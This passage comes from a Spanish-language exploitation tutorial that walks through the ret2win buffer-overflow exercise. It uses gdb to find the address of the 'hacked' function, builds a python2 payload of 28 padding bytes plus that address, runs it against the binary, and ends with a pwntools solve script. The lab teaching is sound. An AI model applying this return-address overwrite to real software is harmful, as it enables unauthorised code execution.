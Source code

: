 ```gdb
[...]
0x08049182  hacked
[...]
```

Para insertarla en la cadena con las *A* utilizaremos python (puedes hacerlo también cambiando el valor con [[gdb]]). Recuerda ponerlo al revés ya que es `LSB` y mandarlo a un fichero, ya que no podemos copiarlo y pegarlo (como vimos en los ejercicios anteriores):

```python
python2 -c 'print 28*"A" + "\x82\x91\x04\x08"' > payload
```

Ejecutamos:

```bash
./ret2win < payload
```
```ret2win
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA��
This function is TOP SECRET! How did you get in here?! :O
[1]    106112 segmentation fault  ./ret2win < payload
```

Vemos que hemos conseguido ejecutar la función! Da también un error de segmentación, debido a que la función `hacked` no tiene ningún `return` (eso debemos tenerlo en cuenta en ciertas situaciones).

Con [[gdb]]:

```gdb
run < payload
```

Y el resultado es el mismo.


### Script

Como siempre tenemos también un script escrito en python con la librería [[pwntools]] para resolver el ejercicio.

```python
#!/bin/python3
from pwn import *

exe = './ret2win'
io = process(exe)

padding = 28 #Cantidad de bytes hasta la direccion de retorno

payload = flat(
    b'A' * 28,
    0x08049182 #hacked()
)

# Send the payload
io.sendlineafter(b':', payload)

# Recibe las dos lineas que no necesitamos
io.recvline()
io.recvline()

print(io.recvline().decode()) #Imprime la linea de hacked

# Receive the flag
io.close()
```
